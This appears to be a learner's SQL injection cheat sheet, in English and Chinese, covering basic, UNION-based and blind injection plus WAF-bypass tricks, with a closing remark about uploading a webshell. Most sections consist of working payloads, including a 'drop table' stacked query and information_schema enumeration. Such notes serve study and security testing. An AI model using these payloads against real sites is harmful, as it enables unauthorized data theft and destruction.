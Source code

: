 # SQLinjection  
SQL is a famous database engine which is used with web server. In this situation, we can inject some SQL based code to get what we want <3.  
[Remember, practice makes perfect!](http://www.tutorialspoint.com/mysql_terminal_online.php)   
  
### Basic injection  
select password from users where name = '$id';  
So, what can we insert into $id?  
```  
5566 or 1=1 --  
5566; drop table hello  // execute drop table on second line  

rafael' or 1=1 --  // select password from users where name = 'rafael' or 1=1 --';  
rafael' or ''='    // select password from users where name = 'rafael' or ''=''; 
```  
  
### Union based  
Try on terminal what will **SELECT name, password FROM users WHERE id = 1 UNION SELECT 1, 2** happen?  
Ans: The union result will show as second result with matching column of name and password!  
Therefore, if we just want the info we need, we can make the first clause not exist...  
```
select name, password from users where id = 1 and 1 = 0 union select 1, 2;  
```
```
// 秀出當前的庫名,使用者
select name, password from users where id = 1 and 1 = 0 union select database(), system_user();
```
```  
// 可以得到目前資料庫下的表名,欄位名  
... union select column_name, table_name from information_schema.columns where table_schema=database(); 
```
```
// 也可以得到其他資料庫的名字!  
... union select table_schema, table_name from information_schema.columns;  
// 我的 k朋友說: 尋找 資料庫就應該用schemata, 回傳才不會重複而且有效率
... union select group_concat(schema_name) from information_schema.schemata;  // group_concat會將結果合併成一行,我們甚至不需要limit
```
```
// 可以得到所有table和column的名字 
... union select table_name, column_name from information_schema.columns;
```
```
// 回傳的結果太多 , 我們可以用 limit加以限制
// 網頁常常只能show唯一的結果
... union select table_name, column_name from information_schema.columns limit 1, 1;  
```  
[What's in information_schema.columns?](https://dev.mysql.com/doc/refman/5.7/en/columns-table.html)  
**group_concat() is also a litte trick.**

### Blind based   
When we cannot show results what we want, we still can find whether it exists or not.  
**True**: Web page shows normal.  
**False**: Web page shows error or blank.  
```  
... exists (select * from table);  // 配合 AND使用
```

### Time based  
Wait for my first time practice ><...
  
### Error based  
Show the result in error message!  
Wait for my first time practice ><... 
  
### WAF bypass
WAF is a defender for web.  
繞過手勢:  
- No 'space'  
  - ```select/**/username/**/from/**/users;```
  - ```union select 1,2``` -> ```union(select(1),2)```
- No 'select'...  
  - ```大小寫混淆 e.g. SelecT``` 
- No comma ','  
  - ```union select 1,2,3``` -> ```union select * from ((select 1)a join (select 2)b join (select 3)c);```   
- Encode your payload  
  - ```URL-ENCODE, HEXIDECIMAL, UNICODE```
  
### Webshell  
Based on the provilege of db user, we can upload shell to read or write to db.

